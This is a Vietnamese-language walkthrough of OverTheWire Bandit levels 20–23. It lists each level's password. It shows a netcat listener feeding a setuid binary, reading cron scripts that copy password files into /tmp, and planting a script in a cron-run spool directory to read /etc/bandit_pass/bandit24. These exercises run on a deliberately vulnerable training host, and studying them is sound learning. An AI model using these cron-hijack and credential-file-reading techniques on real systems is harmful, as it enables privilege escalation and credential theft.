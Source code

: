 ### Level 20
###### User: *bandit20* ; Password: *VxCazJaVykI6W36BkBU0mJTCM8rR95XT*
###### Trong bài này, có `suconnect` là một file thực thi theo cơ chế setuid, tức là thực thi chương trình theo quyền của người cấp chứ không phải người đang chạy.
###### Chức năng của hàm: tạo kết nối đến localhost mà ta tạo, sau đó đọc dòng text từ kết nối và so sánh với mật khẩu của người dùng level trước. Nếu đúng, sẽ trả về mật khẩu của người dùng level hiện tại.
#### 1. Kiểm tra quyền của file: 
```
bandit20@bandit:~$ ls -la
...
-rwsr-x---  1 bandit21 bandit20 15600 Oct  5 06:19 suconnect
```
##### -> file được sở hữu bởi `bandit21` và được sử dụng bởi 'bandit20', tức là khi chạy `suconnect`, so sánh mật khẩu của `bandit20`, nếu đúng trả về mật khẩu của `bandit21`.
#### 2. Tạo cổng `1234` và đẩy mật khẩu vào:
```
ls 
echo -n 'VxCazJaVykI6W36BkBU0mJTCM8rR95XT' | nc -l -p 1234 &
```
###### &: chạy chương trình dưới dạng background
#### 3. Kết nối `suconnect` qua cổng `1234`:
```
bandit20@bandit:~$ ./suconnect 1234
Read: VxCazJaVykI6W36BkBU0mJTCM8rR95XT
Password matches, sending next password
NvEJF7oVjkddltPSrdKEFOllh9V1IBcq
```
##### Key: *NvEJF7oVjkddltPSrdKEFOllh9V1IBcq*
#
### Level 21
###### user: *bandit21* ; password: *NvEJF7oVjkddltPSrdKEFOllh9V1IBcq*
#### Xem file cronjob trong thư mục: 
```
cd /etc/cron.d
ls -la 
cat cronjob_bandit22
‘@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null’
```
##### -> file cronjob này chạy một file tên cronjob_bandit22.sh trong thư mục /usr/bin/ mỗi phút một lần `* * * * *`
```
cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
##### -> file bash này cấp quyền viết và thực thi (2 & 4) cho một file tạm thời trong thư mục /tmp, sau đó sẽ in mật khẩu của bandit22 vào file đó
```
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
##### key : *WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff*
#
### Level 22
#### Xem file `cronjob_bandit23`
```
cd /etc/cron.d
ls -la cronjob_bandit23
cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
```
##### -> thực thi file cronjob_bandit23.sh mỗi phút một lần
#### Xem file thực thi `cronjob_bandit23.sh`:
```
cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"’
```
##### -> in mật khẩu vào tên một file có tên là I am user bandit22 sau khi được mã hóa md5
#### Chạy thử file:
```
./cronjob_bandit23.sh
Copying passwordfile /etc/bandit_pass/bandit22 to /tmp/8169b67bd894ddbb4412f91573b38db3
```
#### Như vậy để tìm được file có chứa key cho level 23:
```
echo I am user bandit23 | md5sum | cut -d ‘’ -f 1 
8ca319486bfbbc3663ea0fbe81326349
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
###### `cut -d ‘’ -f 1`: loại bỏ các khoảng trống trong kết quả
##### key: *QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G*
#
### Level 23
#### Xem file `cronjob_bandit24` & `cronjob_bandit24.sh`:
```
cd /etc/cron.d
cat cronjob_bandit24
cd /usr/bin 
cat cronjob_bandit24.sh

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
##### -> lệnh này sẽ thực thi file ở trong /var/spool/$myname/foo với tư cách người dùng hiện tại, sau đó xóa đi. 
###### + Tức là người dùng là bandit24 thì sẽ thực thi các file trong /var/spool/bandit24/foo với quyền của người dùng bandit24
###### + Như vậy ta sẽ lợi dụng lỗ hổng này để tạo một file in ra mật khẩu người dùng bandit24:
#### Tạo file thực thi trong /tmp:
```
mkdir /tmp/hoang
cd /tmp/hoang
nano bandit24pass.sh
```
#### Nội dung file sẽ in mật khẩu của `bandit24` vào file `pass` tự tạo: 
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/hoang/pass
touch /tmp/hoang/pass
```
#### Cấp quyền cho các file và thư mục:
```
chmod 777 -R /tmp/hoang
chmod 777 bandit24pass.sh
chmod 777 pass
```
#### Sau đó, đẩy file `bandit24pass.sh` vào trong thư mục `/var/spool/bandit24/foo` để thực thi được lệnh trong file:
```
cp bandit24pass.sh /var/spool/bandit24/foo
```
###### Đợi 1 phút vì cronjob sẽ thực thi file `cronjob_bandit24.sh` mỗi phút một lần:
```
cat pass
```
##### key: *VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar*

